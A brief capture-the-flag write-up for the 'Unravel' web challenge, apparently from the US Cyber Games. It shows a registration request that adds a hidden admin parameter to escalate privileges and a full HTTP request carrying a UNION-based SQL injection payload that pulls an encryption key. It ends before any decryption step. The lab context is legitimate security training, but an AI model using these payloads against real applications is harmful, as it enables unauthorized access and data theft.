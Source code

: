 
## Unravel 

### Task
```
Unravel
100pts
This challenge has several parts. You are given a PCAP which shows how to attack the service provided below. Reverse the attack to gather and decrypt an unravel{} flag, then provide that to the API (/api/submit_flag) to gain the SIVUSCG{} flag to submit here.

Additional details are provided on the index page of the challenge.

https://ctfd.uscybergames.com/files/302e6b0827e0efc5a05ba792c62a4e42/unravel_exploit.pcap

https://uscybercombine-s4-unravel.chals.io/
```

### My Solve 
- open pcap file. follow stream, export objects
- found their registering with: `username=exploit&password=c26ab7f72db3018d&secret_param=admin_secret` at `POST /register HTTP/1.1`
- intercept register and add `&secret_param=admin_secret`


- encrypted flag that changes every two minutes is at: 

```
GET /admin/products?search=widget%27%20UNION%20SELECT%20NULL,key,NULL,NULL%20FROM%20xor_encryption_key-- HTTP/1.1

Host: uscybercombine-s4-unravel.chals.io
Cookie: session=eyJyb2xlIjoiYWRtaW4iLCJ1c2VyIjoiaGV5MiJ9.ZmY5fw.3TS72PRORL08FNwihoz-z4N9ZDs
Sec-Ch-Ua: "Not-A.Brand";v="99", "Chromium";v="124"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://uscybercombine-s4-unravel.chals.io/admin/products
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive

```
